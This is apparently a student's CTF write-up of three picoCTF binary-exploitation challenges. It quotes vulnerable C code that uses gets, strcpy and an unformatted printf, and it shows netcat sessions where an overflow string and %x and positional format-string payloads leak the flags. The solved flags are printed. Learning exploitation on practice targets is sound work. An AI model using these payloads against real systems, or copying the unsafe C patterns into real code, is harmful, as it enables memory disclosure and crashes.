 # buffer overflow  0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

There was a problem in OASIS (the asteroid one) which followed the same principle so i had somewhat of an idea of what to do this time arround

I saw the C code and found the use of many buffers as well as the gets function


```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

```
```

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

```
```
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

After doing some research and learning about buffer overflows, i tried entering an input which would go beyond the allocated space in the buffer and cause an overflow, and on doing this i obtained the flag

```
blue@BlueKnight:~/ctf/buffer overflow 0$ nc saturn.picoctf.net 56940
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

What you learned through solving this challenge:

1. Basics of how stacks work and what a buffer overflow is
2. How to cause a buffer overflow

References

- https://www.youtube.com/watch?v=AD-iXWANggo

# format string  0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}`

This challenge felt a bit weird and i need to do a bit more research on the topic
I got a program along with its source code
On running it, it asked me to enter options from among those provided which i tried all of until one worked, (i checked the hints on the chall and one of them literally also was to just try all the options)

on the second part, one of the options included format specifiers in C

```
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

I knew %s was the format specifier for string in C so i tried entering that one and i got the flag

After doing some research I think I have a better understanding of what happened
We passed a number of format specifiers into our input, but there wasn't any argument to back up the format specifier, so the function went up the stack and found something which fits.

Need to look up more into this

What you learned through solving this challenge:

1. How format specifiers can be exploited

References

- https://www.youtube.com/watch?v=2HxyGWD1htg

# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

This challenge was also a bit annoying 

On analyzing the source code i noticed this part

```
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

In the printf, there is no fomat specifier mentioned, so i could exploit this to get an output i wanted

I learnt of the %x format specifier which printed 8 bytes of hexadecimal 

So, i could get the printf to go up the stack and print out the flag for me using this

```
blue@BlueKnight:~/ctf/flag leak$ nc saturn.picoctf.net 52573
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's a story -
ff8619e0.ff861a00.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.
```

The multiple repeating hexadecimal parts in the beginning are my input string stored in the printf buffer

Beyond that is where it checks the rest of the stack

![Screenshot 2024-11-06 121848](https://github.com/user-attachments/assets/2aa31776-76d2-4630-a7e8-5a288cb6586d)

I realised as i did this further, i wouldn't get the complete flag which i required as the %x's would just get printed out in hexadecimal, so i would have to access particular parts of the stack

On counting the hexadecimal parts, the flag starts appearing from after the 36th repletion of the input to printf, so the complete flag would be present beyond that point, so i had to access the particular parts beyond 36

```
blue@BlueKnight:~/ctf/flag leak$ nc saturn.picoctf.net 59236
Tell me a story and then I'll tell you one >> %36$x.%37$x.%38$x.%39$x.%40$x.%41$x.%42$x.%43$x.%44$x.%45$x.%46$x.%47$x.%48$x.
Here's a story -
6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.315f6b63.62326131.7d613235.fbad2000.b4a98700.0.
```

![Screenshot 2024-11-06 124053](https://github.com/user-attachments/assets/7dc7c985-a586-449a-bc03-d0edf4f834d3)

on reversing each group of 4 characters the flag was obtained

I still have to learn more about stacks but as i understand it the lower the value on stack the further "up" it is, so each group of bytes was printed in reverse.

What you learned through solving this challenge:

1. How the %x format specifier can be used to print out parts of the stack

References

- https://www.youtube.com/watch?v=0WvrSfcdq1I






